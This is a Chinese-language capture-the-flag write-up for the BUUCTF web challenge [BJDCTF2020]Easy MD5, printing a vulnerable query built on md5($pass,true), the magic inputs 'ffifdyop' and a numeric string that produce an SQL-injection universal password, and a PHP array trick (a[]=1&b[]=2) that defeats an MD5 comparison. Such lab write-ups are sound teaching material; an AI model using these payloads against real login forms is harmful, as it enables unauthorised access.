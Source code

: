 

<br>

***

<br>

# [BJDCTF2020]Easy MD5

抓包之后看到了提示:

<img src="/images/buuctf-web/image-20221016221105336-166704781973566.png" alt="image-20221016221105336" style="zoom:67%;" />

```
select * from 'admin' where password=md5($pass,true)//这里参数true的意思是输出格式为二进制格式
```

传进去的参数被计算了md5值,那么需要被计算md5后还能达到注入效果

```
ffifdyop
129581926211651571912466741651878684928
```

这两个值在生成二进制的`md5`后可以包含`...' or .. `这样的**万能密码**

用上面这个个值登录进去后,查看源码可以看到下一条提示:

```php
<!--
$a = $GET['a'];
$b = $_GET['b'];
if($a != $b && md5($a) == md5($b)){
    // wow, glzjin wants a girl friend.
-->
```

## 数组绕过md5

这里需要a和b的值不相等,但是`md5`计算结果相等,**这里传数组就可以,php中数组经过md5计算的值为`NULL`**

```
/levels91.php?a[]=1&b[]=2
```
